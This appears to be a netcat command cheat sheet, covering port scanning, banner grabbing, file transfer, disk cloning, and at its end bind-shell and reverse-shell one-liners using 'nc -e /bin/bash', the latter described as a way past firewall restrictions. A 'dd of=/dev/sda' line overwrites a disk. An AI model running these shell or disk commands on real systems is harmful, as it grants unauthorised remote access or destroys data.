 ```yaml
---
layout: default
title: nc
parent: Linux
---
```


# nc

nc is a network client and server program for Unix-like operating systems such as Linux, macOS, and Windows.

## Getting started

### Usage

Connect to a host located anywhere

`$ nc [options] [host] [port]`

Listen for incoming connections

```shell
$ nc -lp port [host] [port]
```

### Option examples

| Option | Description | Example |
| :--- | :--- | :--- |
| `-h` | nc -h | Help |
| `-z` | nc -z 192.168.1.9 1-100 | Port scan for a host or IP address |
| `-v` | nc -zv 192.168.1.9 1-100 | Provide verbose output |
| `-n` | nc -zn 192.168.1.9 1-100 | Fast scan by disabling DNS resolution |
| `-l` | nc -lp 8000 | TCP Listen mode _(for inbound connects)_ |
| `-w` | nc -w 180 192.168.1.9 8000 | Define timeout value |
| `-k` | nc -kl 8000 | Continue listening after disconnection |
| `-u` | nc -u 192.168.1.9 8000 | Use UDP instead of TCP |
| `-q` | nc -q 1 192.168.1.9 8000 | Client stay up after EOF |
| `-4` | nc -4 -l 8000 | IPv4 only |
| `-6` | nc -6 -l 8000 | IPv6 only |

### Chat client-server

Server (192.168.1.9) `$ nc -lv 8000`

Client
```shell
$ nc 192.168.1.9 8000
```

## Examples

### Banner grabbing

`$ nc website.com 80 GET index.html HTTP/1.1 HEAD / HTTP/1.1`

or
```shell
echo "" | nc -zv -wl 192.168.1.1 801-805
```

### Port scanning

Scan ports between 21 to 25 `$ nc -zvn 192.168.1.1 21-25`

Scan ports 22, 3306 and 8080
```shell
$ nc -zvn 192.168.1.1 22 3306 8080
```

### Proxy and port forwarding

`$ nc -lp 8001 -c "nc 127.0.0.1 8000"`

or

```shell
$ nc -l 8001 | nc 127.0.0.1 8000
```

Create a tunnel from one local port to another

### Download file

Server (192.168.1.9) `$ nc -lv 8000 &lt; file.txt`

Client
```shell
$ nc -nv 192.168.1.9 8000 > file.txt
```

Suppose you want to transfer a file “file.txt” from server A to client B.

### Upload file

Server (192.168.1.9) `$ nc -lv 8000 &gt; file.txt`

Client
```shell
$ nc 192.168.1.9 8000 < file.txt
```

Suppose you want to transfer a file “file.txt” from client B to server A:

### Directory transfer

Server (192.168.1.9) `$ tar -cvf – dir\_name \| nc -l 8000`

Client
```shell
$ nc -n 192.168.1.9 8000 | tar -xvf -
```

Suppose you want to transfer a directory over the network from A to B.

### Encrypt transfer

Server (192.168.1.9) `$ nc -l 8000 \| openssl enc -d -des3 -pass pass:password &gt; file.txt`

Client
```shell
$ openssl enc -des3 -pass pass:password | nc 192.168.1.9 8000
```

Encrypt data before transfering over the network

### Clones

Server (192.168.1.9) `$ dd if=/dev/sda \| nc -l 8000`

Client
```shell
$ nc -n 192.168.1.9 8000 | dd of=/dev/sda
```

Cloning a linux PC is very simple. Suppose your system disk is /dev/sda

### Video streaming

Server (192.168.1.9) `$ cat video.avi \| nc -l 8000`

Client
```shelll
$ nc 192.168.1.9 8000 | mplayer -vo x11 -cache 3000 -
```

Streaming video with netcat

### Remote shell

Server (192.168.1.9) `$ nc -lv 8000 -e /bin/bash`

Client
```shell
$ nc 192.168.1.9 8000
```

We have used remote Shell using the telnet and ssh but what if they are not installed and we do not have the permission to install them, then we can create remote shell using netcat also.

### Reverse shell

Server (192.168.1.9) `$ nc -lv 8000`

Client
```shell
$ nc 192.168.1.9 8000 -v -e /bin/bash
```

Reverse shells are often used to bypass the firewall restrictions like blocked inbound connections

